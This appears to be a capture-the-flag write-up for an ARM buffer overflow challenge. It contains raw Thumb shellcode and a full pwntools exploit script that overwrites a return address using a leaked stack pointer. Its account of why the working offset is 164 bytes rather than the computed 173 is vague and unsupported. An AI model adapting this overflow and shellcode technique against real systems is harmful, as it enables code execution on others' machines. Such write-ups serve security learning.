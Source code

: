 # ARM Buffer Overflow Exploitation

## Challenge Overview
**Challenge Name**: ARM Memory Dumper  
**Category**: Binary Exploitation / Pwn  
**Architecture**: ARM 32-bit  
**Difficulty**: Medium  
**Protections**: None (no PIE, no stack canary, no NX)  

## Vulnerability Analysis

### Source Code Review
The vulnerable C program contains a classic buffer overflow vulnerability:

```c
char s[168]; // 168-byte buffer on stack
// ...
scanf(" %[^\n]s", s); // NO BOUNDS CHECKING!
```

**Key Issues:**
1. **Unbounded Input**: `scanf(" %[^\n]s", s)` reads unlimited input until newline
2. **No Length Validation**: No check to ensure input fits in 168-byte buffer
3. **Stack Allocation**: Buffer `s` is allocated on the stack with fixed size

### Memory Layout
```
Stack Layout:
[sp+8h]  s[168]     - Input buffer (168 bytes)
[sp+7h]  v7         - 1 byte variable  
[bp+0h]  Saved BP   - 4 bytes
[bp+4h]  Return Address - 4 bytes (EXPLOITATION TARGET)
```

**Total overflow distance**: 168 (buffer) + 1 (v7) + 4 (saved BP) = 173 bytes to reach return address

but this is not the correct offset we will discouss later on

## Exploitation Strategy

### Information Leak
The program helpfully leaks stack addresses:
```c
_printf_chk(1, "%p: ", v4); // Leaks stack address!
```
This allows us to bypass ASLR (if enabled) by leaking a stack address to calculate shellcode location.

### Shellcode Placement
Since **NX is disabled**, we can execute shellcode directly on the stack. Our strategy:
1. Overflow the buffer with our shellcode
2. Overwrite the return address with the leaked stack address
3. Execute shellcode that runs `cat flag.txt`

## Exploit Development

### Shellcode

we will use this shellcode

```python
# Generated shellcode for execve("/bin/cat", ["/bin/cat", "flag.txt"], NULL)
shellcode = b'\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x24\x33\x78\x46\x16\x30\x92\x1a\x02\x72\x05\x1c\x2c\x35\x2a\x70\x69\x46\x4b\x60\x8a\x60\x08\x60\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x63\x61\x74\x00\x66\x6c\x61\x67\x2e\x74\x78\x74\x00\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41'
```


### Offset Calculation
Through testing, we determined the exact offset:
- **Buffer**: 168 bytes
- **v7 variable**: 1 byte  
- **Padding**: 4 bytes
- **Total**: 173 bytes to reach return address

![no](./img/no.png)

During exploitation, we discovered that while the theoretical offset to reach the return address was 173 bytes (168-byte buffer + 1-byte v7 variable + 4-byte saved BP), the practical working offset was determined to be 164 bytes through empirical testing. This discrepancy occurred due to ARM-specific stack frame alignment requirements and the interaction between the shellcode execution environment and the program's stack layout.


![yes](./img/yes.png)

### Final Exploit Code
```python
#!/usr/bin/env python3
from pwn import *
import struct
import time

def send(p, msg):
    try:
        p.send(msg)
        time.sleep(2)
        return p.recv(1024).decode()
    except:
        return ''

# Generated shellcode for execve("/bin/cat", ["/bin/cat", "flag.txt"], NULL)
shellcode = b'\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x24\x33\x78\x46\x16\x30\x92\x1a\x02\x72\x05\x1c\x2c\x35\x2a\x70\x69\x46\x4b\x60\x8a\x60\x08\x60\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x63\x61\x74\x00\x66\x6c\x61\x67\x2e\x74\x78\x74\x00\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41'
offset = 164  # Adjusted offset accounting for shellcode behavior

print('[!] Shellcode length: {}'.format(len(shellcode)))

# Start ARM binary using QEMU
p = process(['qemu-arm', '-L', '/usr/arm-linux-gnueabi', './chall'])
time.sleep(2)

# Wait for initial prompt
resp = p.recv(1024)
if 'Give me data to dump' not in resp.decode():
    print('[-] Failed to get initial message')
    exit(1)
print('[+] Communication started')

# Step 1: Leak stack address
resp = send(p, b'A\n')
if 'Dump again' not in resp:
    print('[-] Failed to leak address')
    exit(1)

# Extract stack address from dump output
stack = resp.split(':')[0]
print('[+] Stack address: {}'.format(stack))

# Continue to next input
resp = send(p, b'y\n')
if 'Give me data to dump' not in resp:
    print('[-] Failed to continue')
    exit(1)

# Step 2: Build and send exploit payload
stack_addr = struct.pack('I', int(stack, 16))
payload = shellcode + b'A' * (offset - len(shellcode)) + stack_addr + b'\n'

resp = send(p, payload)
if 'Dump again' not in resp:
    print('[-] Failed to send shellcode')
    exit(1)
print('[+] Shellcode sent')

# Step 3: Trigger the exploit
resp = send(p, b'n\n')
print('[+] Output: {}'.format(resp.strip()))

p.close()
```

![result](./img/result.png)


## Exploit Execution Flow

### Phase 1: Setup
```
1. Start ARM binary via QEMU user-mode emulation
2. Wait for "Give me data to dump:" prompt
3. Send single character to trigger address leak
```

### Phase 2: Information Gathering  
```
4. Parse leaked stack address from memory dump
5. Continue to next input cycle
```

### Phase 3: Payload Delivery
```
6. Construct payload: [SHELLCODE] + [PADDING] + [STACK_ADDRESS]
7. Send payload to overflow buffer and overwrite return address
8. Send 'n' to trigger function return and jump to shellcode
```

### Phase 4: Code Execution
```
9. Return address points to shellcode on stack
10. Shellcode executes: execve("/bin/cat", ["flag.txt"], NULL)
11. Flag is read and displayed
```

## Technical Details

### ARM Shellcode Breakdown
The shellcode uses ARM Thumb mode for efficiency:
- **Mode Switch**: `add r3, pc, #1; bx r3` switches to Thumb mode
- **String Setup**: Loads "/bin/cat" and "flag.txt" strings
- **Argument Array**: Builds `argv[]` array on stack
- **Syscall Setup**: Sets `r7=11` (execve syscall number), `svc 1` triggers syscall


### Why Offset is 164, Not 173
The actual working offset was 164 bytes due to:
- Shellcode execution requirements
- Stack alignment considerations  
- ARM-specific frame pointer behavior
